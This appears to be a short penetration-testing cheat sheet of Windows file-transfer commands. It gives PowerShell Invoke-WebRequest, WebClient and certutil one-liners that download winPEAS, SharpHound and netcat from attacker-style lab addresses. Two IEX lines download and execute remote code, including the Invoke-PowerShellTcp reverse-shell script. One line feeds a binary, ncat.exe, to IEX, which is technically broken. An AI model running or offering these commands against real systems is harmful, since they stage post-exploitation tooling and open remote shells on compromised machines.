 
## powershell

```powershell
powershell Invoke-WebRequest -Uri "http://10.10.14.7/winPEASany.exe" -OutFile "winPEASany.exe" 
```
```sh
powershell Invoke-WebRequest -Uri "http://10.10.14.48/SharpHound.exe" -OutFile "SharpHound.exe" 
```

`upload via web`
```powershell
powershell (new-object System.Net.WebClient).Downloadfile('http://192.168.1.36/nc.exe', 'nc.exe')
```


`download and execute a script`

```pwsh
powershell IEX(New-Object Net.WebClient).downloadString(\"http://192.168.1.36/ncat.exe\")
```

```pwsh
iex (iwr '10.10.14.3/Invoke-PowerShellTcp.ps1' -UseBasicParsing)
```


## certutil.exe

```powershell
certutil.exe -urlcache -split -f "http://10.10.14.7/winPEASany.exe" winpeas.exe
```
